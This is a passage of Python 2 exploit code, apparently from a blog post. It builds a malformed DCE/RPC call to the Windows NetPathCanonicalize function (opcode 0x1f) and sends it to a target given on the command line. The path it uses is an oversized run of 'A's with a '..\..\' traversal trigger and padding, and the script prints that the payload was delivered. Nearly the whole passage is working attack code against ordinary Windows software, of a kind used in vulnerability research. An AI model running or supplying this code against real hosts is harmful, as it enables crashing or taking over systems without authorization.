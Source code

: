 	  #   [in, out] DWORD* PathType,
	  #   [in] DWORD Flags
	  #   );
	  """
	  
def build_payload():
      """
      """
      server = "P" * 6
      prefix = '\\'
      outbuf = 2
      path_type = 1
      flags = 0
	  
      # path setup
      trigger = to_unicode("\\..\\..\\")
      fbpath = "A" * 508
      pad = to_unicode("ACSDPOX")
      spath = "B" * 78
      path = to_unicode(prefix) + fbpath + trigger + pad + spath + "\x00" * 2
      print len(path)
      # Create the call stub string
      stub = ndr_uwstring(server)
      stub += ndr_wstring_prebuilt(path)
      stub += ndr_long(outbuf)
      stub += ndr_wstring(prefix)
      stub += ndr_long(path_type)
      stub += ndr_long(flags)    
      return stub
    
def exploit(dce):
      stub = build_payload()
      print "[*]\tCall stub size %s" % len(stub)
      #NetPathCanonicalize func. opcode 0x1f
      dce.call(0x1f, stub)
	  
if __name__ == "__main__":
      if len(sys.argv) == 2:
          target = sys.argv[1]
          dce = connect(target)
          if dce is not None:
              print "[*]\tBuilding exploit string"
              exploit(dce)
              print "[*]\tPayload delivered"
  
  {% endhighlight %}
  